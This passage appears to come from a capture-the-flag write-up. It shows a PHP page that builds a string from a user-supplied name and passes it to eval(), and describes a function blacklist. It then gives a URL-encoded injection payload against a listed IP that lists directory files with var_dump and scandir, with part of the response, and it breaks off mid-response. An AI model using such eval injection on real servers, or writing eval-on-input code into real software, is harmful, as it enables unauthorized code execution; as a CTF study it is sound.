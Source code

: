 ```php
?>

<!DOCTYPE html>
<html>
<head>
 <style>
    body {
      background-image: url("x.webp");
      background-repeat: no-repeat;
      background-size: cover;
      background-position: center center;
      height: 100vh;
      margin: 0;
      display: flex;
      justify-content: center;
      align-items: center;
    }

    @media (max-width: 768px) {
      body {
        background-size: contain;
      }
    }
  </style> 
</head>
<body>
  <?php
    
   $str = "echo \"<div style='position: fixed; top: 0; left: 0;'><p style='font-size: x-large; color: white;'>Hello " . $name . "!!!</p></div>\";";

    eval($str);
  ?>
</body>
</html>
```

you can notice that we have a `$name` parameter and it must be less than 36 in length, and if our payload do not have any of the commands in the `$dangerousFunctions` array , the payload will be passed to `eval`function.

in this part i was not able to bypass this blacklist , but after a lot of research i found out i can use `var_dump()` and `scandir()` to list the files in the directory.

Payload :

> `http://34.18.3.149:8000/xchal.php?name="%26%26+var_dump(scandir('.'));%23`
> 

Response :

```php
<!DOCTYPE html>
<html>
<head>
 <style>
    body {
      background-image: url("x.webp");
      background-repeat: no-repeat;
      background-size: cover;
      background-position: center center;
      height: 100vh;
      margin: 0;
      display: flex;
      justify-content: center;
      align-items: center;
```